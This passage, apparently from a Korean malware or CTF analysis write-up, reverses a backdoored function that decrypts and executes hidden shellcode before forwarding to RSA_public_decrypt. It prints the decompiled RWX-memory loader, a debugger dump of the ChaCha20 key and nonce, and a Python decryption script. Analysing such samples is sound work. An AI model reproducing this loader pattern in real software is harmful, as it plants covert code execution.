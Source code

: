 ```cpp
    {
      sub_93F0(v14, a2 + 1, a2 + 9, 0LL);
      v12 = mmap(0LL, dword_32360, 7, 34, -1, 0LL);
      v13 = (void (*)(void))memcpy(v12, &unk_23960, dword_32360);
      sub_9520(v14, v13, dword_32360);
      v13();
      sub_93F0(v14, a2 + 1, a2 + 9, 0LL);
      sub_9520(v14, v13, dword_32360);
    }
    v9 = "RSA_public_decrypt ";
  }
  v10 = dlsym(0LL, v9);
  return ((__int64 (__fastcall *)(_QWORD, _DWORD *, __int64, __int64, _QWORD))v10)(a1, a2, a3, a4, a5);
}
```

<br />

크래시가 발생한 부분의 `argument`는 다음과 같이 저장되므로, `a1~a5`를 다음의 레지스터에서 복구가 가능하다.

```cpp
.text:000000000000987E                 mov     r8d, ebx  //a5
.text:0000000000009881                 mov     rcx, r14  //a4
.text:0000000000009884                 mov     rdx, r13  //a3
.text:0000000000009887                 mov     rsi, rbp  //a2
.text:000000000000988A                 mov     edi, r12d //a1
.text:000000000000988D                 call    rax
```

<br />

그 중 `a2`는 `chacha20`에서 사용하는 상태 배열로 `key`와 `nonce`를 구할 수 있다. 
- 0[4] : 매직 넘버
- 4[32] :  `key`
- 8[12] : `nonce`

```cpp
(gdb) x/48bx $rsi
0x55b46d51dde0: 0x48    0x7a    0x40    0xc5    0x94    0x3d    0xf6    0x38
0x55b46d51dde8: 0xa8    0x18    0x13    0xe2    0xde    0x63    0x18    0xa5
0x55b46d51ddf0: 0x07    0xf9    0xa0    0xba    0x2d    0xbb    0x8a    0x7b
0x55b46d51ddf8: 0xa6    0x36    0x66    0xd0    0x8d    0x11    0xa6    0x5e
0x55b46d51de00: 0xc9    0x14    0xd6    0x6f    0xf2    0x36    0x83    0x9f
0x55b46d51de08: 0x4d    0xcd    0x71    0x1a    0x52    0x86    0x29    0x55
```

<br />

## 쉘코드
### 쉘코드 해석
다음과 같이 `unk_23960`을 복호화하면 쉘코드를 얻을 수 있다.

```python
from Crypto.Cipher import ChaCha20

def scd_decode():
    key_hex = "943df638a81813e2de6318a507f9a0ba2dbb8a7ba63666d08d11a65ec914d66f"
    nonce_hex = "f236839f4dcd711a52862955"
    key = bytes.fromhex(key_hex)
    nonce = bytes.fromhex(nonce_hex)
    
    with open("scd_encoded.dump","rb") as f:
        ciphertext = f.read()
    cipher = ChaCha20.new(key=key, nonce=nonce)
    plaintext = cipher.decrypt(ciphertext)
```